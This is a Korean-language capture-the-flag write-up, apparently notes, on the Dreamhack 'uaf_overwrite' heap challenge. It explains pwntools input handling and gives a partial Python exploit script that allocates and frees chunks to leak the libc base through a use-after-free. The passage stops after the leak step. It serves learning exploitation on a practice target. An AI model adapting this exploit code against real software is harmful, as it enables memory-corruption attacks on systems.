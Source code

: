 `human_func`, `robot_func`, `custom_func`는 전부 `data`를 입력 받을 때 빼고, 전부 `scanf("%d")`로 입력을 받기 때문에 `p.sendline(str().encode)`으로 입력을 보내줘야 한다.

`custom_func`에서 `data`를 입력 받을 때만 오직 `read`로 입력 받기 때문에 개행 문자를 추가해주면 `fd`에 `\xa0`가 추가되서 `send`로 보내야 한다.

**그리고, 제일 마지막에 `printf("Data: %s\n", custom[c_idx]);`를 통해 청크의 `data`를 읽어야 하기 때문에 각 함수에서 페이로드를 보낼 때, `sendlineafter`를 통해 보내야 한다.** 

그렇게 하지 않으면, `u64(p.recvline()[:-1].ljust(8, b'\x00'))`에서 마지막에 `data`를 입력 받울 때 바이너리의 형식적인 `printf("Size: ");` 같은 출력값들이 섞여서 제대로 출력이 안되게 된다.

`human`, `robot`에는 꼭 해줄 필요가 없긴 하지만, `custom`에는 꼭 해줘야 한다.

`custom`에서 페이로드를 3번 보내는데, 이때 전부 `after(b': ', ...)`을 통해 보내면 차례대로 나오는 `printf("Size: ");`, `printf("Data: ");`, `printf("Data: %s\n", custom[c_idx]);`, `printf("Free idx: ");` 중 딱 세번째 `printf`의 `: `까지 짤려서,

`%s\n`을 통해 바로 `data\n`이 출력되고, `recvline()`으로 받을 수 있게 된다. (뒤에 `printf("Free idx: ");`가 출력되므로 신경쓸 필요 없어짐)

참고로, `sendafter(b': ')`는 `": : :"`라는 문자열에서 처음 `":"`를 만나면 바로 보낸다.

```py
#!/usr/bin/env python3
# Name: uaf_overwrite.py
from pwn import *

p = remote("host3.dreamhack.games", 18315)


def human(weight, age):
    p.sendlineafter(b'>', b'1')
    p.sendlineafter(b': ', str(weight).encode())
    p.sendlineafter(b': ', str(age).encode())

    # p.sendline(str(weight).encode())
    # p.sendline(str(age).encode())


def robot(weight):
    p.sendlineafter(b'>', b'2')
    p.sendlineafter(b': ', str(weight).encode())

    # p.sendline(b'2')
    # p.sendline(str(weight).encode())


def custom(size, data, idx):
    p.sendlineafter(b'>', b'3')
    p.sendlineafter(b': ', str(size).encode())
    # 여긴 `scanf`가 아닌 `read`로 입력 받기 때문에 `send`로 보내야 함
    # 만약 `sendline`으로 보내면 data에 `\n`이 추가되서 출력되는 `data` 값이 달라져서 offset도 달라짐
    p.sendafter(b': ', data)
    p.sendlineafter(b': ', str(idx).encode())

    # p.sendline(b'3')
    # p.sendline(str(size).encode())
    # p.send(p64(data))
    # p.sendline(str(idx).encode())


# [1] Leak libc base
custom(0x500, b'random1', -1)  # 사이즈를 8바이트 단위로 `0x4f9 ~ 0x508` 까지는 같은 오프셋을 가리킴
custom(0x500, b'random2', 0)
custom(0x500, b'B', -1)
# data 값이 'B'가 아니라 'C'가 된다면, 아스키코드 기준 1이 커진 값이 입력되므로, offset은 0x3ebc42 가 아니라 0x3ebc43가 되야한다.
```